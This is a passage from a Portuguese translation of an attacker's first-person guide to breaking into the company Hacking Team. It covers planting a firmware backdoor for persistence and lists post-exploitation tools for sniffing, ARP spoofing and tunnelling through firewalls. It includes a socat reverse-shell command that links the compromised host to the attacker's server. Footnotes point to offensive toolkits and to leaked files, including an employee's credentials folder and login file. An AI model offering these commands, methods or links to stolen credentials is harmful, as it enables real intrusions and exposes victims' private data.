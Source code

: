 [^45]: http://pastebin.com/raw.php?i=cRYvK4jb

[^46]: http://sourceforge.net/projects/joomscan/

[^47]: http://www.devttys0.com/

[^48]: https://docs.google.com/presentation/d/1-mtBSka1ktdh8RHxo2Ft0oNNlIp7WmDA2z9zzHpon8A

## 6 - Esteja preparado

Fiz muitos trabalhos e testes antes de usar o exploit contra Hacking Team. Eu escrevi um firmware backdoor e compilei várias ferramentas de post-exploitation para o dispositivo embutido. A porta dos fundos serve para proteger o exploit. Usar o exploit apenas uma vez e depois retornar pela porta dos fundos torna mais difícil identificar e corrigir as vulnerabilidades.

As ferramentas post-exploitation que eu preparei foram:

1) [busybox](https://www.busybox.net/)

   Para todos os utilitários Unix padrão que o sistema não tinha.

2) [nmap](https://nmap.org/)

   Para escanear e tirar impressões digitais da rede interna da Hacking Team.

3) [Responder.py](https://github.com/SpiderLabs/Responder)

   A ferramenta mais útil para atacar redes do Windows quando você tem acesso à rede interna, mas nenhum usuário de domínio.

4) [Python](https://github.com/bendmorris/static-python)

   Para executar o Responder.py

5) [tcpdump](http://www.tcpdump.org/)

   Para farejar o tráfego.

6) [dsniff](http://www.monkey.org/~dugsong/dsniff/)

   Para farejar senhas de protocolos de texto simples como ftp e para arpspoofing. Eu queria usar o ettercap, escrito pelo próprio ALoR e NaGA do Hacking Team, mas foi difícil compilá-lo para o sistema.

7) [socat](http://www.dest-unreach.org/socat/)

   Para um *comfortable shell* com um pty:

   ~~~
   my_server: socat file:`tty`,raw,echo=0 tcp-listen:my_port
   hacked box: socat exec:'bash -li',pty,stderr,setsid,sigint,sane
   tcp:my_server:my_port
   ~~~
   E útil para muito mais, é um canivete suíço de rede. Veja a seção de exemplos de sua documentação.

8) [screen](https://www.gnu.org/software/screen/)

   Como o shell com pty, não era realmente necessário, mas eu queria me sentir em casa na rede do Hacking Team.

9) [uma SOCKS proxy server](http://average-coder.blogspot.com/2011/09/simple-socks5-server-in-c.html)

   Para usar com proxychains para poder acessar sua rede local de qualquer programa.

10) [tgcd](http://tgcd.sourceforge.net/)

Para encaminhar portas, como para o servidor SOCKS, através do firewall.


[^1]: http://pastebin.com/raw.php?i=cRYvK4jb
[^2]: https://en.wikipedia.org/wiki/Citizens%27_Commission_to_Investigate_the_FBI
[^3]: http://www.aljazeera.com/news/2015/09/algerian-hacker-hero-hoodlum-150921083914167.html
[^4]: https://securelist.com/files/2015/02/Carbanak_APT_eng.pdf
[^5]: http://madrid.cnt.es/noticia/consideraciones-sobre-el-ataque-informatico-a-gamma-group
[^6]: http://www.animalpolitico.com/2015/07/el-gobierno-de-puebla-uso-el-software-de-hacking-team-para-espionaje-politico/
[^7]: http://www.prensa.com/politica/claves-entender-Hacking-Team-Panama_0_4251324994.html
[^8]: http://www.24-horas.mx/ecuador-espio-con-hacking-team-a-opositor-carlos-figueroa/
[^9]: https://citizenlab.org/2012/10/backdoors-are-forever-hacking-team-and-the-targeting-of-dissent/
[^10]: https://citizenlab.org/2014/02/hacking-team-targeting-ethiopian-journalists/
[^11]: https://citizenlab.org/2015/03/hacking-team-reloaded-us-based-ethiopian-journalists-targeted-spyware/
[^12]: http://focusecuador.net/2015/07/08/hacking-team-rodas-paez-tiban-torres-son-espiados-en-ecuador/
[^13]: http://www.pri.org/stories/2015-07-08/these-ethiopian-journalists-exile-hacking-team-revelations-are-personal
[^14]: https://theintercept.com/2015/07/07/leaked-documents-confirm-hacking-team-sells-spyware-repressive-countries/
[^15]: http://www.wired.com/2013/06/spy-tool-sold-to-governments/
[^16]: http://www.theregister.co.uk/2015/07/13/hacking_team_vietnam_apt/
[^17]: http://www.ilmessaggero.it/primopiano/cronaca/yara_bossetti_hacking_team-1588888.html
[^18]: http://motherboard.vice.com/en_ca/read/hacking-team-founder-hey-fbi-we-can-help-you-crack-the-dark-web
[^19]: https://www.torproject.org/
[^20]: https://info.securityinabox.org/es/chapter-4
[^21]: https://www.whonix.org/
[^22]: https://tails.boum.org/
[^23]: https://www.qubes-os.org/doc/privacy/torvm/
[^24]: https://trac.torproject.org/projects/tor/wiki/doc/TransparentProxy
[^25]: https://www.whonix.org/wiki/Comparison_with_Others
[^26]: https://blog.torproject.org/blog/tor-security-advisory-relay-early-traffic-confirmation-attack/
[^27]: http://www.wifislax.com/
[^28]: https://www.torproject.org/docs/bridges.html.en
[^29]: http://www.documentcloud.org/documents/1342115-timeline-correlation-jeremy-hammond-and-anarchaos.html
[^30]: http://www.nytimes.com/2015/12/27/business/dealbook/the-unsung-tax-agent-who-put-a-face-on-the-silk-road.html
[^31]: http://web.archive.org/web/20140610083726/http://www.soulblack.com.ar/repo/papers/hackeando_con_google.pdf
[^32]: http://ha.ckers.org/fierce/
[^33]: https://github.com/laramies/theHarvester
[^34]: https://bitbucket.org/LaNMaSteR53/recon-ng
[^35]: https://nmap.org/
[^36]: https://zmap.io/
[^37]: https://github.com/robertdavidgraham/masscan
[^38]: http://www.morningstarsecurity.com/research/whatweb
[^39]: http://blindelephant.sourceforge.net/
[^40]: https://github.com/laramies/metagoofil
[^41]: https://www.elevenpaths.com/es/labstools/foca-2/index.html
[^42]: http://www.hacknbytes.com/2016/01/apt-pentest-con-empire.html
[^43]: http://blog.cobaltstrike.com/2015/09/30/advanced-threat-tactics-course-and-notes/
[^44]: http://www.netcomunity.com/lestertheteacher/doc/ingsocial1.pdf
[^49]: https://www.shodan.io/search?query=product%3Amongodb
[^50]: https://community.rapid7.com/community/metasploit/blog/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql
[^51]: http://archives.neohapsis.com/archives/vulnwatch/2004-q3/0001.html
[^52]: http://downloads.securityfocus.com/vulnerabilities/exploits/hoagie_mysql.c
[^53]: http://archives.neohapsis.com/archives/bugtraq/2000-02/0053.html
[^54]: https://ht.transparencytoolkit.org/audio/
[^55]: https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf
[^56]: https://github.com/Neohapsis/creddump7
[^57]: http://proxychains.sourceforge.net/
[^58]: https://www.samba.org/
[^59]: http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
[^60]: https://github.com/gentilkiwi/mimikatz
[^62]: https://adsecurity.org/?page_id=1821
[^63]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
[^64]: https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Invoke-BypassUAC.ps1
[^65]: https://technet.microsoft.com/en-us/sysinternals/psexec.aspx
[^66]: https://sourceforge.net/projects/winexe/
[^67]: https://www.rapid7.com/db/modules/exploit/windows/smb/psexec_psh
[^68]: http://www.powershellempire.com/?page_id=523
[^69]: http://blog.cobaltstrike.com/2014/04/30/lateral-movement-with-high-latency-cc/
[^70]: https://github.com/byt3bl33d3r/pth-toolkit
[^71]: https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py
[^72]: https://www.trustedsec.com/june-2015/no_psexec_needed/
[^73]: http://www.powershellempire.com/?page_id=124
[^74]: http://www.maquinasvirtuales.eu/ejecucion-remota-con-powershell/
[^75]: https://adsecurity.org/?p=2277
[^76]: https://www.secureworks.com/blog/where-you-at-indicators-of-lateral-movement-using-at-exe-on-windows-7-systems
[^77]: https://github.com/PowerShellEmpire/Empire/blob/master/lib/modules/lateral_movement/new_gpo_immediate_task.py
[^78]: https://www.indetectables.net/viewtopic.php?p=211165
[^79]: https://adsecurity.org/?page_id=1821
[^80]: https://github.com/bidord/pykek
[^81]: https://adsecurity.org/?p=676
[^82]: http://www.hackplayers.com/2014/12/CVE-2014-6324-como-validarse-con-cualquier-usuario-como-admin.html
[^83]: https://github.com/n1nj4sec/pupy
[^84]: http://www.powershellempire.com/?page_id=273
[^85]: https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1
[^86]: http://blog.cobaltstrike.com/2014/05/14/meterpreter-kiwi-extension-golden-ticket-howto/
[^87]: http://www.harmj0y.net/blog/empire/nothing-lasts-forever-persistence-with-empire/
[^88]: http://www.hexacorn.com/blog/category/autostart-persistence/
[^89]: https://blog.netspi.com/tag/persistence/
[^90]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView
[^91]: http://www.harmj0y.net/blog/tag/powerview/
[^92]: http://www.harmj0y.net/blog/powershell/veil-powerview-a-usage-guide/
[^93]: http://www.harmj0y.net/blog/redteaming/powerview-2-0/
[^94]: http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/
[^95]: http://www.slideshare.net/harmj0y/i-have-the-powerview
[^96]: https://adsecurity.org/?p=2535
[^97]: https://www.youtube.com/watch?v=rpwrKhgMd7E
[^98]: https://github.com/mubix/netview
[^99]: https://blogs.msdn.microsoft.com/rcormier/2013/03/30/how-to-perform-bulk-downloads-of-files-in-sharepoint/
[^100]: https://adsecurity.org/?page_id=41
[^101]: http://www.darkoperator.com/?tag=Active+Directory
[^102]: https://github.com/PowerShellMafia/PowerSploit
[^103]: https://github.com/samratashok/nishang
[^104]: http://hacking.technology/Hacked%20Team/FileServer/FileServer/Hackingteam/InfrastrutturaIT/
[^105]: http://www.hammer-software.com/wmigphowto.shtml
[^106]: https://www.trustedsec.com/june-2015/no_psexec_needed/
[^107]: https://gallery.technet.microsoft.com/scriptcenter/PowerShell-Credentials-d44c3cde
[^108]: http://pwnwiki.io/#!presence/windows/find_files.md
[^109]: http://archive.is/TbaPy
[^110]: http://hacking.technology/Hacked%20Team/c.pozzi/screenshots/
[^111]: http://hacking.technology/Hacked%20Team/c.pozzi/Desktop/you.txt
[^112]: http://hacking.technology/Hacked%20Team/c.pozzi/credentials/
[^113]: http://hacking.technology/Hacked%20Team/c.pozzi/Truecrypt%20Volume/Login%20HT.txt
[^114]: http://seclists.org/fulldisclosure/2014/Oct/78
[^115]: https://twitter.com/coracurrier/status/618104723263090688
[^116]: http://andres.delgado.ec/2016/01/15/el-miedo-de-vigilar-a-los-vigilantes/
[^117]: https://twitter.com/CthulhuSec/status/619459002854977537